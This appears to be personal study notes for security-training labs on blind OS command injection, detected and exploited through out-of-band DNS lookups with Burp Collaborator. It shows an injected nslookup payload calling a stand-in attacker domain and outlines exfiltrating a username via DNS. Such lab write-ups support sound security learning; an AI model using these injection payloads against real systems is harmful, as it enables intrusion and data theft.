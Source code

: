 You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
**Example** - 
```python
|| nslookup kgji2ohoyw.web-attacker.com || 
```
- This payload uses the `nslookup` command to cause a DNS lookup for the specified domain.
- The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

## Steps to solve the lab-3
### Desc - Blind OS command injection with out-of-band interaction

1. Inserting details in the website:
![[ci6.png]]

2. Setting up payload in the repeater
![[ci7.png]]

3. DNS query in the burp collaborator tab:
![[ci8.png]]

## Steps to solve the lab-4
### Desc - Blind OS command injection with out-of-band interaction# Blind OS command injection with out-of-band data exfiltration

1. Inserting details in the website:
![[ci6.png]]

2. Setting up payload in the repeater
![[ci9.png]]

3. Analyzing the DNS query to the burp collaborator:
![[ci10.png]]

4. Submit the user that you get from burp collaborator as a solution and lab is solved here.